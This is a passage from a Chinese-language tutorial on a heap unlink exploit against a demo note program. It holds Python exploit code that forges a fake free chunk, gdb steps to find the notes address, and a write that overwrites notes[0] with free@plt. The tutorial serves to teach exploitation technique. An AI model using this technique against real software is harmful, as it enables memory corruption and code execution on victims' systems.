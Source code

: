 由于每个note的大小是0x80，当对note填充内容的长度超过0x80时，就会发生堆溢出。因而，我们可以向 note 0 填充0x88字节的内容，多出的8个字节将会覆盖 note 1 的presize和size&flag。那么如何构造填充的内容以便free(notes[1])的时候触发unlink呢？首先修改 note 1 中的P标志位，将其置0，这样就会认为前一个块 note 0 是空闲的；然后将 note 1 内存块的presize字段改为0x80，这样就会认为前一个内存块大小只有0x80(包括presize、size&flag、fd和bk)，且这0x80字节的内容完全可控；最后设计伪造空闲块的fd和bk。由于unlink时，会对unlink的节点的合法性进行检查，即该节点的前一个节点的bk指针必须指向该节点，并且该节点的后一个节点的fd指针必须指向该节点，因而fd和bk不能随便构造。由于全局变量notes刚好指向note 0 的起始地址，可以把它认为是伪造空闲块的chunk ptr，所以，当fake_free_note->fake_fd = notes - 12，fake_free_note->fake_bk = notes - 8 时，就可以绕过unlink的检查。具体的构造代码如下：

```
notes_addr = int(raw_input("notes address:"), 16)
# "c"*8 + fake_fd + fake_bk + "c"*0x70 + fake_presize + modify_pre_inuse_flag
note0_content = "c" * 8 + p32(notes_addr - 12) + p32(notes_addr - 8) + "c" * 0x70 + p32(0x80) + p32(0x88 | 0x02)
self.__edit_note(0, 0x88, note0_content) 
```

其中notes_addr的值可以通过gdb获得(记得退出gdb)：

```
root@generic:/data/local/tmp # ./gdb -pid 3477  //3477 是unlink_demo进程的id
(gdb) p/x *(0xb004)   //通过ida分析可以知道0xb004处存的是notes_addr的地址。
$1 = 0x1030020
(gdb) q
The program is running.  Quit anyway (and detach it)? (y or n) y 
```

此时的内存布局如下：

![](heapunlink3.png)

#### step 3\. free(notes[1])，触发unlink

`self.__free_note(1) # free notes[1]`
由于在 note 1 前面构造了一个伪造的空闲内存块，当free(notes[1])时，就会对伪造的空闲内存块进行unlink操作：

```
F = p -> fd;  //F = notes - 12
B = p -> bk;  //B = notes - 8
if (F -> bk == p && B -> fd == p){
  F -> bk = B;  // 即notes[0] = B = notes - 8
  B -> fd = F;  // 即notes[0] = F = notes -12
} 
```

从上可知，unlink后，notes[0]存的不再是note 0 的起始地址了，而是notes - 12。此时我们只关心notes数组的内存，其布局如下：
![](heapunlink4.png)

#### step 4\. 将free@plt的地址写入notes[0]

由于此时notes[0] = notes -12 ，所以notes[0][0]其实就是 notes - 12 地址处的一个字节，notes[0][12~15]其实就是notes[0]。因而我们可以通过向note 0写入16个字节将任意值写入notes[0]，这里将.plt section中free的地址写入notes[0]：

```
note0_content = "c" * 12 + p32(self.free_plt_addr)
self.__edit_note(0, 0x10, note0_content) 
```

在ida中查看free_plt_addr为0x8558
![](heapunlink5.png)
